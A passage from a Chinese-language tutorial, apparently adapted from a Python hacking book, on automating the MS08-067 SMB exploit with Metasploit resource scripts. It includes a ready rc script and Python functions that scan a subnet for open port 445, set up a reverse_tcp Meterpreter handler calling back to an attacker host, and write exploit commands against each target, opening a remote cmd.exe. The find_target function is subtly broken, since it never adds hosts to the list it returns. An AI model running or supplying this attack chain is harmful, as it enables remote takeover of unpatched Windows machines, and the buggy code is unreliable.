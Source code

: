 虽然攻击者可以通过交互驱动的方式使用 Metasploit，但 Metasploit 也能读取批处理脚本（rc）完成攻击。在攻击时，Metasploit 会顺序执行批处理文件中的命令。

```shell
use exploit/windows/smb/ms08_067_netapi
set RHOST 192.168.1.37
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.77.77
set LPORT 7777
exploit -j -z

msfconsole -r conficker.rc
> sessions -i 1
> execute -i -f cmd.exe
```

### 编写 Python 脚本与 Metasploit 交互

首先需要扫描网段内所有开放 445 端口的主机，TCP 445 端口主要是作为 SMB 协议的默认端口用的

```python
import nmap
def find_target(sub_net):
    nm_scan = nmap.PortScanner()
    nm_scan.scan(sub_net, "445")
    target_hosts = list()
    for host in nm_scan.all_hosts():
        if nm_scan[host].has_tcp(445):
            state = nm_scan[host]["tcp"][445]["state"]
            if state == "open":
                print("[+] Found Target Host: {}".format(host))
	return target_hosts
```

接下来需要编写一个监听器，这个监听器或称命令与控制信道，用于与目标主机进行远程交互

Metasploit 提供了一个 Meterpreter 的高级动态负载，当 Meterpreter 进程回连接到攻击者的计算机等候执行进一步的命令时，要使用一个名为 `multi/handler` 的 Metasploit 模块去发布命令。接下来需要把各条指令写入 Metasploit 的 rc 脚本中

```python
def setup_handler(config_file, lhost, lport):
    config_file.write("use exploit/multi/handler\n")
    config_file.write("set PAYLOAD windows/meterpreter/reverse_tcp\n")
    config_file.write("set LPORT {}\n".format(lport))
    config_file.write("set LHOST {}\n".format(lhost))
    config_file.write("exploit -j -z\n")
    config_file.write("setg DisablePayloadHandler 1\n")
```

注意脚本发送了一条指令：在同一个任务（job）的上下文环境中（-j），不与任务进行即时交互的条件下（-z）利用目标计算机上的漏洞

```python
def conficker_exploit(config_file, target_host, lhost, lport):
    config_file.write("use exploit/windows/smb/ms08_067_netapi\n")
    config_file.write("set RHOST {}\n".format(target_host))
    config_file.write("set PAYLOAD windows/meterpreter/reverse_tcp\n")
    config_file.write("set LPORT {}\n".format(lport))
    config_file.write("set LHOST {}\n".format(lhost))
    config_file.write("exploit -j -z\n")
```
